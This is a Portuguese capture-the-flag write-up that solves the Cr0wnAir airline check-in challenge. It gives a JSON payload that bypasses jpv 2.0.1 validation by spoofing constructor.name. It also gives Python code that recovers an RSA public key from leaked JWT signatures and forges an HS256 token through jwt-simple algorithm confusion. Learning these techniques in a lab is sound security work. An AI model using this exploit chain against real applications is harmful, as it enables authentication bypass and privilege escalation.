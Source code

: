 ## Overview

Temos uma aplicação web de check-in em uma companhia aérea. Existem dois endpoints: /checkin e /upgrades.

A função que recupera a flag é bem óbvia e é mostrada no código a seguir, que é uma requisição do tipo POST para /upgrades/flag:

```js
router.post('/flag', [getLoyaltyStatus], function(req, res, next) {
  if (res.locals.token && res.locals.token.status == "gold") {
    var response = {msg: config.flag };
  } else {
    var response = {msg: "You do not qualify for this upgrade at this time. Please fly with us more."};
  }
  res.json(response);
});
```

Com isso, percebe-se que uma manipulação no token de acesso já nos daria acesso a ela.

Observando as dependências da aplicação, vemos uma versão vulnerável da biblioteca de verificação JPV (JSON Pattern Validator) e também uma versão de jwt-simple desatualizada. Explorando as vulnerbilidades é possível forjar um JWT, alterando o status do passageiro para "gold" e permitindo o acesso à flag.

OBS: ao reproduzir o desafio localmente, é necessário criar chaves RSA pública e privada para colocar no arquivo config.js (já que no original elas vinham censuradas devido ao objetivo do desafio). Utilize as funções abaixo para recriá-las e copie seus valores para o arquivo de configuração:

```
openssl genrsa -out private.pem 2048
openssl rsa -in private.pem -pubout -out public.pem
```

## Vulnerabilidade JPV 2.0.1

A biblioteca jpv tem como intuito validar inputs de usuário comparando com patterns definidos a priore.

Os seguintes padrões são definidos:

```js
const pattern = {
  firstName: /^\w{1,30}$/,
  lastName: /^\w{1,30}$/,
  passport: /^[0-9]{9}$/,
  ffp: /^(|CA[0-9]{8})$/,
  extras: [
    {sssr: /^(BULK|UMNR|VGML)$/},
  ],
};
```

Porém, na linha 42 de checkin.js existe a verificação ```data["extras"][e]["sssr"] == "FQTU"```
que caso seja verdadeira vaza um token JWT:

```js
...
    for(e in data["extras"]) {
        if (data["extras"][e]["sssr"] && data["extras"][e]["sssr"] === "FQTU") {
          var token = createToken(data["passport"], data["ffp"]);
          var response = {msg: "You have successfully checked in. Thank you for being a Cr0wnAir frequent flyer. Your loyalty has been rewarded and you have been marked for an upgrade, please visit the upgrades portal.", "token": token};
        }
...
```

Para satisfazer essa verificação e bypassar a validação do jpv, exploramos a vulnerabilidade definida em: https://github.com/manvel-khnkoyan/jpv/issues/6.

A validação do campo extras é feita com um pattern que espera um array de objetos com sssr cujo valor seja uma das strings BULK, UMNR ou VGML. Na prática, em jpv@2.0.1 a verificação de "é array?" foi implementada de forma insegura: a biblioteca checa algo como ```obj.constructor.name === 'Array'``` (ou similar), o que é contornável porque, em JavaScript, o campo constructor de um objeto é mutável (ou é possível fornecer um objeto com ```constructor.name = "Array"```).

Utilzamos um payload como o seguinte:

```js
    "firstName": "Algum",
    "lastName": "Nome",
    "passport": "123456789",
    "ffp": "CA12345678",
    "extras": {
        "x": {
            "sssr": "FQTU"
        },
        "constructor": {
            "name": "Array"
        }
    }
```

Com isso conseguimos vazar tokens diferentes apenas alterando o valor do campo "passport" ou "ffp".

## Vulnerabilidade jwt-simple (algorithm confusion / key misuse)

O JWT tem um campo "alg" no header que indica o algoritmo usado na assinatura (RS256, HS256, etc). RS256 usa RSA (chave privada para assinar, pública para verificar). Já o HS256 usa HMAC-SHA256 (um segredo simétrico compartilhado). No caso desse desafio, está sendo utilizada o algoritmo RS256 como é possível verificar no arquivo ckeckin.js:

```js
function createToken(passport, frequentFlyerNumber) {
  var status = isSpecialCustomer(passport, frequentFlyerNumber) ? "gold" : "bronze";
  var body = {"status": status, "ffp": frequentFlyerNumber};
  return jwt.encode(body, config.privkey, 'RS256');
}
```

Porém, em upgrade.js o token é decodificado assim:

```js
function getLoyaltyStatus(req, res, next) {
  if (req.headers.authorization) {
    let token = req.headers.authorization.split(" ")[1];
    try {
      var decoded = jwt.decode(token, config.pubkey);
    } catch {
      return res.json({ msg: 'Token is not valid.' });
    }
    res.locals.token = decoded;
  }
  next()
}
```

Ou seja, ```jwt.decode(token, key)``` está sendo chamado sem restringir o algoritmo e a chave utilizada é config.pubkey (a chave pública). Em jwt-simple@0.5.2, se o token declara "alg: HS256", a biblioteca tratará config.pubkey como o segredo para HMAC e aplicará HMAC-HS256 para verificar o token, o que é aceitável para jwt-simple, já que ela não valida se a chave é adequada ao algoritmo declarado.

Assim, se soubermos a chave pública (ou a reconstruirmos), podemos criar um JWT com "alg: HS256" e assinar com HMAC-SHA256(secret = PEM_pubkey). O servidor usará o mesmo config.pubkey na verificação e aceitará o token, pois o algoritmo no header foi HS256. Assim transformamos um token de verificação assimétrica (RS256) num token simétrico (HS256) que podemos fabricar localmente.

Continuando, com dois tokens vazados temos recursos para calcular a chave pública a partir da assinatura dos tokens. O algoritmo RS256, após realizar algumas operações de hashing sobre os headers e payload do token em base64 e fazer o padding utilizando o algoritmo PKCS#1 v1.5 (iremos chamar o valor resultante de "pt"), realiza a clássica operação RSA com a assinatura:

```
sig == pt^d (mod n)  // d = expoente privado
```

A verificação é feita com ```sig^e == pt (mod n)```.

Para encontrar o valor do módulo n e recuperar a chave pública original, usamos uma função auxiliar get_magic() com valores de "e" arbitrários (nesse caso testamos apenas os valores mais comuns e encontramos que foi utilizado o clássico valor 65537):

```python
def get_magic(jwt_token: str, e: int) -> gmpy2.mpz:
    """
    Calcula o valor sig**e - pt para um JWT assinado com RS256.
    """
    header, payload, signature = jwt_token.split(".")
    raw_signature = urlsafe_b64decode(f"{signature}==")
    raw_signature_int = gmpy2.mpz(bytes_to_long(raw_signature))

    padded_msg = pkcs1_v1_5_encode(f"{header}.{payload}".encode(), len(raw_signature))
    padded_int = gmpy2.mpz(bytes_to_long(padded_msg))

    return gmpy2.mpz(pow(raw_signature_int, e) - padded_int)
```

Temos assim um possível k*n (sendo k um número inteiro qualquer). Com os dois tokens diferentes conseguimos tirar o gcd e descobrir o valor do módulo n, tornando possível a recuperação da chave pública:

```python
pubkey = RSA.construct((int(N), int(e)))
pem_rsa = pubkey.export_key()
print("\nChave pública PEM:")
print(pem_rsa)
```

Agora com a chave pública podemos montar o nosso token final. Para conseguir utilizar a chave pública sem saber a chave privada, mudamos o algoritmo de criptografia de RS256 para HS256 no header do JWT.

```{"alg": "HS256", "typ": "JWT"} ```

Testamos também mudar o "alg" para "none" como descrito em https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries, porém sem sucesso.

Assim, utilizamos a chave RSA do formato PEM como string literal para assinar o token forjado com o algoritmo HS256 e alteramos o payload para o status "gold":

```python
message = f"{header_b64}.{payload_b64}"
signature = hmac.new(pem_rsa, message.encode(), hashlib.sha256).digest()
signature_b64 = b64url_encode(signature)
jwt_hs_token = f"{message}.{signature_b64}"
```

Com isso conseguimos forjar um token JWT que passa por todas as verificações e retorna a flag ao enviá-lo para o endpoint /upgrades/flag com uma requisição POST.

```python
headers = {"Authorization": f"Bearer {jwt_hs_token}"}
res = requests.post(f"{URL_BASE}/upgrades/flag", headers=headers).json()
print("\nResposta do servidor:")
print(res)
# union{I_<3_JS0N_4nD_th1ngs_wr4pp3d_in_JS0N}
```
